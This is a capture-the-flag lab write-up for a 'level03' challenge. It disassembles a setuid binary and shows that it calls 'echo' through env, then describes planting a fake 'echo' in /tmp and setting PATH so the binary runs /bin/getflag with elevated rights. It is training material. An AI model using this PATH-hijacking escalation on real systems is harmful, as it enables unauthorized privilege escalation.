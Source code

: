 When we log on as `level03`, we are in `/home/user/level03`. It contains a binary `-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03`
- it is owned by the user `flag03` and the `level03` group
- we don't have permission to modify it
- we don't have write permission in the folder, only in `/tmp`

If we launch the binary, it just prints "Exploit me"

We run it with gdb and dissasemble main:
```
gdb level03
break main
run
disas

output :
Dump of assembler code for function main:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     and    esp,0xfffffff0
   0x080484aa <+6>:     sub    esp,0x20
=> 0x080484ad <+9>:     call   0x80483a0 <getegid@plt>
   0x080484b2 <+14>:    mov    DWORD PTR [esp+0x18],eax
   0x080484b6 <+18>:    call   0x8048390 <geteuid@plt>
   0x080484bb <+23>:    mov    DWORD PTR [esp+0x1c],eax
   0x080484bf <+27>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484c3 <+31>:    mov    DWORD PTR [esp+0x8],eax
   0x080484c7 <+35>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484cb <+39>:    mov    DWORD PTR [esp+0x4],eax
   0x080484cf <+43>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484d3 <+47>:    mov    DWORD PTR [esp],eax
   0x080484d6 <+50>:    call   0x80483e0 <setresgid@plt>
   0x080484db <+55>:    mov    eax,DWORD PTR [esp+0x1c]
   0x080484df <+59>:    mov    DWORD PTR [esp+0x8],eax
   0x080484e3 <+63>:    mov    eax,DWORD PTR [esp+0x1c]
   0x080484e7 <+67>:    mov    DWORD PTR [esp+0x4],eax
   0x080484eb <+71>:    mov    eax,DWORD PTR [esp+0x1c]
   0x080484ef <+75>:    mov    DWORD PTR [esp],eax
   0x080484f2 <+78>:    call   0x8048380 <setresuid@plt>
   0x080484f7 <+83>:    mov    DWORD PTR [esp],0x80485e0
   0x080484fe <+90>:    call   0x80483b0 <system@plt>
   0x08048503 <+95>:    leave  
   0x08048504 <+96>:    ret 
```

We can translate this asm as the following C code
```C
#include <unistd.h>
#include <sys/types.h>

int main()
{
	gid_t gid = getgid(); #the process gets the effective group id -> level03
	uid_t eudid =  geteuid(); #the process gets its own UID ->flag03
	setresgid(?); #change the guid
	setresuid(?); #change the uid 
	system(char *cmd); #call a system cmd
	
}
```
We can see the binary gets the group id and its uid then set them in the process. It then call a system command.

We use hexdump to search for for a string looking like a command call  in the binary or use the 'strings' command. We find `"/usr/bin/env echo Exploit Me"`  
It calls `echo` with the environnment variable set in the process.
We can create a binary called `echo` and change the [`PATH`](https://en.wikipedia.org/wiki/PATH_(variable)) variable of the process.
It will run it with the permissions of `flag03` so we can ask it to call `/bin/getflag` (we know the location of the binary, thanks to `whereis getflag`).

We can `scp` the file echo.c in `/tmp`. Then we compile it (`gcc echo.c -p echo`). Finally, we override the value of `PATH` so `echo` will launch our binary and not `/bin/echo` (`export PATH=/tmp`). Launching `level03` gets us the flag :)

